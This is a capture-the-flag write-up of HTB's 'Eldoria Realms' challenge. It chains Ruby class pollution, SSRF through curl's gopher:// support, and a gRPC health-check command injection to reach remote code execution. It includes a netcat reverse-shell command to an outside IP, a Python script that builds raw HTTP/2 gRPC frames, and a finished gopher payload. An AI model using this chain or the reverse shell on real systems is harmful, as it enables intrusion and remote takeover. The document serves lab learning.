Eldoria Realms is a “web exploitation” challenge featured in HTB’s Cyber Apocalypse 2025 CTF. This challenge involved exploiting Ruby’s Class Pollution to achieve SSRF, then using SSRF to invoke gRPC server functionality, ultimately leading to RCE.



> **Note** — I’ve tried to incorporate my research on why our payload works and the conditions required for it to work. As a result, this write-up became quite lengthy. Feel free to skip to the **Exploitation** section of this article if you’re in a hurry.

## Black-Box Review

We’ve been provided with a copy of application’s source-code and immediately we want to jump to it and start reading it. However, a better approach would be to first navigate around the running instance of the application to get an overview of its functionalities which will make it easier for us to go through the source-code because we’d already be familiar with some of its exposed functions. Also make sure that you have your `Web-Proxy` turned on to capture requests that will be made so that you can analyze it later on.





> What can you control and what you can’t will help you differ between what you must focus on and what you mustn't — “An Age old saying”

Here, we can observe that `Update Player` feature takes `json` _input_ from us to _update_ the `player` `attributes`. So, this is something which we can control since it takes an _input_ from us and incorporate it in some way within the code.

Let’s click on different buttons on each tab and see what they do.



So, this button is simply fetching us `player` `attributes` back. Let’s go on.





Similar to previous feature, it fetched us “Quest Log” back… whatever it is.







Okay, this time it was a `POST` request within which we can control `item_id` and only time will tell if this will be useful.









Interesting thing to notice in this `GET` request was that it had `timestamp` with difference in `seconds` and `real-time` meaning that this `data` was actually `live` in a way.






Another interesting feature since it mentioned that it made an `HTTP` request to the given `realm_url`.

> If you can’t control it now that doesn’t imply you can’t control it later. — “A Phrack Old Saying”

So after we’ve gone through everything that we can reach while we are blind-folded about how internally it works, it is good to leverage some previous experience or recall lessons which you’ve learnt in web security to map out this template —

> If I can control X then I will be able to do Y and so is there a way to control X?

Let’s recall everything that we’ve observed as we navigated around this application and try to think of what can our actions be and therefore their possible consequences.

1.  We have the ability to _update_ `player` `attributes` and therefore we might be able to _inject_ some additional `attributes` and hence an `object` `pollution` vulnerability.
2.  I might be able to change `item_id` to some `index` that might enable us to reference an `item` that could be interesting and hence an `IDOR` vulnerability.
3.  If I can control `realm_url` then I will be able to let the `application` make `request` to a possibly `arbitrary` `uri` and hence obtaining a `SSRF` vulnerability and so I might need to find a way to control `realm_url`.

## Source-Code Review

Let’s start with the `project` `file` `structure`.



Notice from the files that it is built using `go-lang`, `ruby` and `protobuf`. Let’s go through each relevant file and remember that our goal is to `pop-a-shell` i.e to obtain `Remote Command Execution`, how do I know? I don’t really know for sure but I noticed the following line in `entrypoint.sh` and therefore I assumed that it might most likely be our goal.

```sh
# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

Now, lets jump into the `source-code` for this application starting with `challenge\eldoria_api\app.rb`.

```rb
require "json"
require "sinatra/base"
require "net/http"
require "grpc"
require "open3"
require_relative "live_data_services_pb"

$quests = [
 { "quest_id" => 1, "title" => "Defeat the Goblin Horde", "description" => "Eliminate the goblin invaders in the Shadow Woods.", "reward" => "50 gold", "status" => "available" },
 { "quest_id" => 2, "title" => "Rescue the Captured Villagers", "description" => "Save villagers from the dark creatures in the Twilight Fields.", "reward" => "100 gold", "status" => "available" },
 { "quest_id" => 3, "title" => "Retrieve the Lost Artifact", "description" => "Find the ancient artifact hidden in the Crystal Caverns.", "reward" => "Mystic weapon", "status" => "available" }
]

$store_items = [
 { "item_id" => 1, "name" => "Health Potion", "price" => 10 },
 { "item_id" => 2, "name" => "Mana Potion", "price" => 12 },
 { "item_id" => 3, "name" => "Iron Sword", "price" => 50 },
 { "item_id" => 4, "name" => "Leather Armor", "price" => 40 }
]

$player = nil
```

Initial part of `app.rb` is all about requiring necessary `modules` and _initializing_ `global` variables.

```rb
class Adventurer
 @@realm_url = "http://eldoria-realm.htb"

 attr_accessor :name, :age, :attributes

 def self.realm_url
  @@realm_url
 end

 def initialize(name:, age:, attributes:)
  @name = name
  @age = age
  @attributes = attributes
 end

 def merge_with(additional)
  recursive_merge(self, additional)
 end

 private

 def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

In our `adventure` class, we finally get to see the first reference to `realm_url`, one of our potential targets and so it seems as if this `attribute` is _hard-coded._ Also notice that `realm_url` is a `shared` `attribute` across all `classes` represented by `@@` in ruby meaning that `classes` that inherits `Adventurer` will also inherit `realm_url`.

Then we see reference to `merge_with()`, something that possibly might be involved with the `merge` feature of the application.

Just below that we have `recursive_merge()` method and look at its `method definition` , it seems as if **it can modify the attributes/method of an instance** i.e object. Let’s search for this and see if we can find something.



Let’s take a look at the third article from above — [blog.doyensec.com/class-pollution-ruby](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html) and what do we see.



This application is using the same `method` logic and hence making it vulnerable to what is known as `Ruby's Class Pollution` vulnerability.

Let’s continue our `source-code` `review` and see where it is being used.

```rb
class Player < Adventurer
 def initialize(name:, age:, attributes:)
  super(name: name, age: age, attributes: attributes)
 end
end
```

This piece of code is simply creating a `class` `Player` that will inherit `Adventurer` class and initializing it with its `parent` `class` `attributes`.

```rb
class LiveDataClient
 def initialize(host = "localhost:50051")
  @stub = Live::LiveDataService::Stub.new(host, :this_channel_is_insecure)
 end

 def stream_live_data
  req = Live::LiveDataRequest.new
  @stub.stream_live_data(req).each do |live_data|
   yield live_data
  end
 rescue GRPC::BadStatus => e
  puts "gRPC Error: #{e.message}"
 end
end
```

`LiveDataClient` `class` seems to be making connection with `gRPC` `Server ` (_we will take a look at that later_) at `localhost:50051` and then declaring `stream_live_data` method to fetch this “live data” from that `gRPC` `Server`.

```rb
class EldoriaAPI < Sinatra::Base
 set :port, 1337
 set :bind, "0.0.0.0"
 set :public_folder, File.join(File.dirname(__FILE__), "public")

 get "/" do
  send_file File.join(settings.public_folder, "index.html")
 end
```

Now let’s start focusing on relevant routes and their functionality that we’ve explored during our `black-box review`. Here, `EldoriaAPI` class describes the behavior of this web application. The `ruby` app runs on `Port 1337` and at `/` serves the `index.html` file.

```rb
post "/merge-fates" do
  content_type :json
  json_input = JSON.parse(request.body.read)
  random_attributes = {
   "class" => ["Warrior", "Mage", "Rogue", "Cleric"].sample,
   "guild" => ["The Unbound", "Order of the Phoenix", "The Fallen", "Guardians of the Realm"].sample,
   "location" => {
    "realm" => "Eldoria",
    "zone" => ["Twilight Fields", "Shadow Woods", "Crystal Caverns", "Flaming Peaks"].sample
   },
   "inventory" => []
  }

  $player = Player.new(
   name: "Valiant Hero",
   age: 21,
   attributes: random_attributes
  )

  $player.merge_with(json_input)
  { 
   status: "Fates merged", 
   player: { 
    name: $player.name, 
    age: $player.age, 
    attributes: $player.attributes 
   } 
  }.to_json
 end
```

`/merge-fates` endpoint as we’ve discussed earlier can lead us to `Class Pollution` through `merge_with() or recursive_merge()` function. We’ve already found that this is the case ([blog.doyensec.com/class-pollution-ruby](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)) and hence we can change `attributes` as required for an `instance` and our target is `realm_url` because it can lead us to obtain `SSRF`.

```rb
get "/connect-realm" do
  content_type :json
  if Adventurer.respond_to?(:realm_url)
   realm_url = Adventurer.realm_url
   begin
    uri = URI.parse(realm_url)
    stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
    { status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
   rescue URI::InvalidURIError => e
    { status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
   end
  else
   { status: "Failed to access realm URL" }.to_json
  end
 end
```

Looking at the `/connect-realm` endpoint, it is evident that this is the injection-point to obtain `SSRF`. Since, `realm_url` from `Adventurer` class is being used while executing `curl` tool.

**So,** **if we can modify** `Adventurer.realm_url` **then we will be able to obtain** `SSRF` **and make** `curl` **send request to arbitrary** `URI` . It is important to note that `Player` instance is being merged with our `input` through `merge_with()` function and not the `Adventurer` instance and so we need to change `realm_url` that is in `Adventurer` through `Player` instance and it is possible since `realm_url` due to `Class Pollution Vulnerability` that we have —


Now we have all the required information and evidences to prove that `SSRF` is possible but what can we achieve with that?

Let’s explore `challenge\data_stream_api\app.go` to find out if there is anything that can be utilized to escalate `SSRF`.

```go
func (s *server) CheckHealth(ctx context.Context, req *pb.HealthCheckRequest) (*pb.HealthCheckResponse, error) {
 ip := req.Ip
 port := req.Port

 if ip == "" {
  ip = s.ip
 }
 if port == "" {
  port = s.port
 }

 err := healthCheck(ip, port)
 if err != nil {
  return &pb.HealthCheckResponse{Status: "unhealthy"}, nil
 }
 return &pb.HealthCheckResponse{Status: "healthy"}, nil
}

func healthCheck(ip string, port string) error {
 cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
 output, err := cmd.CombinedOutput()
 if err != nil {
  log.Printf("Health check failed: %v, output: %s", err, output)
  return fmt.Errorf("health check failed: %v", err)
 }

 log.Printf("Health check succeeded: output: %s", output)
 return nil
}
```

And what do we see? A `Command Injection Vulnerability` in `healthCheck()` `function` because it is directly concatenating `ip` and `port` `string` to prepare the `command` that is to be executed.

**So, if we can send a request to** `gRPC Server` **running at** `port 50051` **for it to execute** `CheckHealth()` **procedure with _our_ _inputs_** `ip` **and** `port` **then we will achieve** `RCE`**.**

Before we go any further, let me tell you that we will use `gopher` `protocol` to communicate with `gRPC Server` and send our `request` to execute `CheckHealth()` procedure. To explain why we can do this and how it even works, let’s cover some background.

## Background — Gopher

I’ll be directly quoting Gopher [RFC1436](https://datatracker.ietf.org/doc/html/rfc1436) and [RFC4266](https://datatracker.ietf.org/doc/html/rfc4266).

*   The Internet Gopher protocol and software follow a `client-server` model. This protocol assumes a _reliable data stream_; `TCP` is assumed.
*   In essence, the Gopher protocol consists of a `client` connecting to a `server` and sending the `server` a **selector** (_a line of text_, which may be empty) via a `TCP` connection. The `server` responds with **a block of text** terminated with a period on a line by itself, and closes the connection.



*   A **Gopher URL** takes the form: `gopher://<host>:<port>/<gopher-path>` where `<gopher-path>` can be `<gophertype><selector>`.
*   `<gophertype>` is a **single-character** field to denote the **Gopher type** of the resource to which the URL refers.
*   The entire `<gopher-path>` may also be empty, in which case the delimiting `/` is also optional and the `<gophertype>` defaults to `1`.
*   `<selector>` is the Gopher **selector** string. Gopher **selector** strings are a **sequence of octets** that may contain any octets except **0x9 (Tab)**, **0xA (LF)** and **0xD (CR)**.



Now, let’s create a simple `TCP Server` in `go-lang` and use `curl` tool to see how the `curl (client)` uses `gopher (protocol)` to interact with `backend application (server)`.



Let’s dive into `curl` source code to describe this behavior while dealing with `gopher://` protocol — [https://github.com/curl/curl/blob/master/lib/gopher.c#L163](https://github.com/curl/curl/blob/master/lib/gopher.c#L163)



It’ll drop the **first character** i.e the `item-type` and send the rest i.e `selector` as it is and that’s all. `Client` is meant to simply transfer `a block of text` to the `server` where `server` is supposed to handle the rest as aptly described by the following line in [RFC1436](https://datatracker.ietf.org/doc/html/rfc1436) —

> All intelligence is carried by the server implementation rather than the protocol. What you build into more exotic servers is up to you. Server implementations may grow as needs dictate and time allows.

## Background — gRPC

I’ll be quoting `go-gRPC` [documentation](https://grpc.io/docs/languages/go/basics/) and its [source-code](https://github.com/grpc/grpc-go).

*   In `gRPC`, a client application can directly call a method on a server application on a different machine as if it were a local object.
*   `gRPC` is based around the idea of defining a _service_, specifying the _methods_ that can be called remotely with their _parameters_ and _return_ types.
*   On the server side, the `server` implements this interface and runs a `gRPC` `server` to handle `client` calls. On the `client` side, the `client` has a `stub` (referred to as just a `client` in some languages) that provides the same `methods` as the `server`.
*   With `gRPC` we can define our service once in a `.proto` file and generate clients and servers in any of gRPC’s supported languages.



In the given source-code, we notice `gRPC stub` and `gRPC server` as following —

```rb
# eldoria_api/live_data_services_pb.rb
require 'grpc'
require_relative 'live_data_pb'

module Live
  module LiveDataService
    class Service

      include ::GRPC::GenericService

      self.marshal_class_method = :encode
      self.unmarshal_class_method = :decode
      self.service_name = 'live.LiveDataService'

      rpc :StreamLiveData, ::Live::LiveDataRequest, stream(::Live::LiveData)
      rpc :CheckHealth, ::Live::HealthCheckRequest, ::Live::HealthCheckResponse
    end

    Stub = Service.rpc_stub_class
  end
end
```

```go
/* data_stream_api/app.go */
/* <...> */
ip := "0.0.0.0"
port := "50051"
/* <...> */
 lis, err := net.Listen("tcp", addr)
/* <...> */
 s := grpc.NewServer()
 pb.RegisterLiveDataServiceServer(s, &server{ip: ip, port: port})
/* <...> */
 if err := s.Serve(lis); err != nil {
  log.Fatalf("failed to serve: %v", err)
 }
```

Also, we can use `gRPCurl` tool which acts as a `gRPC client` to communicate with the `gRPC server`. Let’s explore the `.proto` file that we are provided in the `source-code`. Refer to [aristanetworks.github.io/gnoi/grpcurl](https://aristanetworks.github.io/openmgmt/examples/gnoi/grpcurl/#list) —

```sh
grpcurl --plaintext --proto live_data.proto list
```

```sh
grpcurl --plaintext --proto live_data.proto list live.LiveDataService
```

```sh
grpcurl --plaintext --proto live_data.proto describe live.LiveDataService.CheckHealth
```





These are the list of `procedures` available for us to execute with what `inputs` they require. Now, to create a `gRPC request` use the following command —

```sh
grpcurl -d '{\"ip\":\"1.1.1.1\", \"port\":\"80\"}' -plaintext -proto .\live_data.proto localhost:50051 live.LiveDataService.CheckHealth
```



Recall that we want to communicate with `gRPC` through `curl` in-order to execute a `method`. We know that `gopher` exists as a simple protocol that will deliver any `payload` directly via `TCP` connection. Now, let’s focus on how `gRPC` `Server` handles a `TCP connection`.

As we can see in `app.go`, we are creating a `TCP` `Listener` and passing it to `s.Serve()` method —

> `Serve()` accepts incoming connections on the listener `lis`, creating a new `ServerTransport` and `service` goroutine for each. The `service` goroutines read `gRPC` requests and then call the `registered` `handlers` to reply to them.












A google search might’ve revealed this piece of information but what we just discovered above is that `gRPC` **uses** `HTTP/2` **as its underlying _transport_ mechanism.**

So now we know how to communicate with `gRPC` using `curl` and that is using `HTTP/2` and as we read earlier, it now makes sense as to how `gopher://` protocol can help us realize this communication by sending the `Raw Bytes` to `Tcp Listener` from which the sent contents will be parsed as `HTTP/2` `packets` to perform execution of the desired procedure.

> Now this might not be completely true but we’ve hypothesized pretty well at this point, let’s see how it turns out in practice — “An age old saying”

## Some Gotchas

Also observe that the version of `curl` that we’ve been provided with in `Dockerfile` does not support `http/2`.





_Also_ notice that `curl` won’t allow `NULL-BYTES` to be processed in our `gopher` `payload` since [https://github.com/curl/curl/commit/31e53584db5879894809fbde5445aac7553ac3e2](https://github.com/curl/curl/commit/31e53584db5879894809fbde5445aac7553ac3e2) but **we don’t mind because our version is before this change**.



**In any case, now we need to construct a valid** `HTTP/2` **request packet for** `gRPC` **and send it through** `curl` **using** `gopher://` **protocol.**

## Exploitation

*   Construct a valid `HTTP/2` request packet that will execute `CheckHealth()` procedure.
*   By intercepting the communication between `go-gRPC-server` and `ruby-app` using `Wireshark`.
*   Then manually copy the `HTTP/2` `Stream` from each `packet` sent to the `go-gRPC-server`.
*   `Url-encode` each of them and construct a `gopher://` `uri` and replace the `Adventurer` class `@@realm_url` with that in the `ruby-app`.

We will use `gRPCurl` tool as mentioned above to trigger a `request` and then copy its contents to construct our `HTTP/2` payload reasoning being that `gRPCurl` also uses `HTTP/2` for communication and so instead of creating our payload from scratch, we can simply copy-paste it.

**Read about this in detail —** [bkubiak.github.io/grpc-raw-requests](https://bkubiak.github.io/grpc-raw-requests/)

First, spun up `ngrok tcp 8000` and start a `nc -nvlp 8000` to capture the `reverse shell`.





Our `json` payload that will be sent to `gRPC server` using `gRPCurl` will be , Note that this is a simple command injection on `port` `input` with a `;` semicolon separating one command from another.

```sh
{\"ip\":\"1.1.1.1\", \"port\":\"80; nc 3.6.231.193 17130 -e /bin/sh \"}
```

Our complete `gRPCurl` command to call `CheckHealth()` procedure with the above inputs —

```sh
grpcurl -d '{\"ip\":\"1.1.1.1\", \"port\":\"80; nc 3.6.231.193 17130 -e /bin/sh \"}' -plaintext -proto .\live_data.proto localhost:50051 live.LiveDataService.CheckHealth
```





Now, we need the following — **1\. Magic, 2. Settings, 3. Headers, 4. Data** and in that order we have to combine them.



and similarly copy the rest to finally obtain the following —

```py
magic = "505249202a20485454502f322e300d0a0d0a534d0d0a0d0a"
settings = "000000040000000000"
headers = "00006c010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418ba0e41d139d09b8d800d87f5f8b1d75d0620d263d4c4d65647a959acac96d9431dc2bbebb2a4d65645a63b015dc0ae040027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab"
data = "000034000100000001000000002f0a07312e312e312e31122438303b206e6320332e362e3233312e313933203137313330202d65202f62696e2f736820"
```

Let’s combine them —

```py
magic = "505249202a20485454502f322e300d0a0d0a534d0d0a0d0a"
settings = "000000040000000000"
headers = "00006c010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418ba0e41d139d09b8d800d87f5f8b1d75d0620d263d4c4d65647a959acac96d9431dc2bbebb2a4d65645a63b015dc0ae040027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab"
data = "000034000100000001000000002f0a07312e312e312e31122438303b206e6320332e362e3233312e313933203137313330202d65202f62696e2f736820"

request_hex = magic + settings + headers + data
```

And finally, convert hex-to-bytes and then url-encode the bytes to send it over `gopher://` —

```py
import urllib.parse

magic = "505249202a20485454502f322e300d0a0d0a534d0d0a0d0a"
settings = "000000040000000000"
headers = "00006c010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418ba0e41d139d09b8d800d87f5f8b1d75d0620d263d4c4d65647a959acac96d9431dc2bbebb2a4d65645a63b015dc0ae040027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab"
data = "000034000100000001000000002f0a07312e312e312e31122438303b206e6320332e362e3233312e313933203137313330202d65202f62696e2f736820"

request_hex = magic + settings + headers + data
request_bytes = bytes.fromhex(request_hex)

gopher_payload = urllib.parse.quote(request_bytes)
print(f"gopher://127.0.0.1:50051/_{gopher_payload}")
```



Finally our payload is ready —

```sh
gopher://127.0.0.1:50051/_PRI%20%2A%20HTTP/2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00l%01%04%00%00%00%01%83%86E%98b%83w%2A%F9%CD%DC%B7%C6%91%EE-%9D%CCB%B1zr%93%AE2%8E%84%CFA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BE%BB%2AMedZc%B0%15%DC%0A%E0%40%02te%86M%835%05%B1%1F%40%8E%9A%CA%C8%B0%C8B%D6%95%8BQ%0F%21%AA%9B%83%9B%D9%AB%00%004%00%01%00%00%00%01%00%00%00%00/%0A%071.1.1.1%12%2480%3B%20nc%203.6.231.193%2017130%20-e%20/bin/sh%20
```

Let’s use `Ruby's Class Pollution` vulnerability to change `@@realm_url` with this `gopher://` `uri` that we have constructed —





And moment of truth —





🧡 We have successfully pwned `Eldoria Realms` web app and thus completed the challenge — Happy Hacking!

## References

1.  [https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)
2.  [https://datatracker.ietf.org/doc/html/rfc1436](https://datatracker.ietf.org/doc/html/rfc1436)
3.  [https://datatracker.ietf.org/doc/html/rfc4266](https://datatracker.ietf.org/doc/html/rfc4266)
4.  [https://grpc.io/docs/what-is-grpc/introduction/](https://grpc.io/docs/what-is-grpc/introduction/)
5.  [https://github.com/curl/curl](https://github.com/curl/curl)
6.  [https://github.com/grpc/grpc-go](https://github.com/grpc/grpc-go)
7.  [https://aristanetworks.github.io/openmgmt/examples/gnoi/grpcurl](https://aristanetworks.github.io/openmgmt/examples/gnoi/grpcurl)
8.  [https://bkubiak.github.io/grpc-raw-requests/](https://bkubiak.github.io/grpc-raw-requests/)